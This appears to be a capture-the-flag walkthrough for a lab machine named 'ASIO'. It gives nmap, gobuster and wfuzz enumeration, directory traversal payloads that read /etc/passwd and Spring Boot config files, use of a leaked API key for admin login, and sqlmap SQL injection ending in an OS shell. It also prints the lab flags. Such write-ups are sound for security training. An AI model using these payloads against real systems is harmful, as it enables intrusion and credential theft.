# **ASIO**

---
## **LOCAL.TXT**

## **Run Nmap to see running services**
```
sudo nmap -O -Pn 192.168.248.131
```
 

## **Run Gobuster for directory/file enumeration**
```
gobuster dir -u 192.168.248.131 -w /usr/share/wordlists/dirb/common.txt
```
 

## **Try directory traversal payload**
``
../../../../../../../windows/win.ini

or

/../../../../../../../etc/passwd
``
 

This now confirms the presense of directory traversal vulnerability.

## **Try to read the SpringBoot config file**
SpringApplication will load properties from application.properties files in the following locations and add them to the Spring Environment:

- A /config subdirectory of the current directory.
- The current directory
- A classpath /config package
- The classpath root


- Create paths.txt
```
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
```

- Create files.txt
```
application.properties
application.yml
config/application.properties
config/application.yml
```

- Now run Wfuzz with our word lists.
``` 
wfuzz -w paths.txt -w files.txt --hh 0 http://192.168.248.131/specials?menu=FUZZFUZ2Z
```
 

Now use payload: http://192.168.248.131/specials?menu=../config/application.properties

 

As you can see the api key, use this api key to login to admin portal.

 

Afrer login you can gind the local.txt.
When submitting the flag, remove first two characters.

 

### local.txt flag: ba98d4df115ea1faf6bded63261664d7


---
## **PROOF.TXT**

## **Intercept the delete message post request**
   
 

If the application is vulnerable to SQL and constructs a query with our input, adding a single quote would likely cause a syntax error.  

 

## **Use SQLmap to confirm if SQL injection exists**

- Save the from burpsuite as postrequest.txt.

```
sqlmap -r postrequest.txt --dbms= "mssql" --batch --flush-session
```
 

## **Use SQLmap to obtain a reverse shell and read proof.txt**

```
sqlmap -r postrequest.txt --os-shell --batch
```
 
   
### proof.txt flag: 0080681462d1e2a7124473cf61f3bc54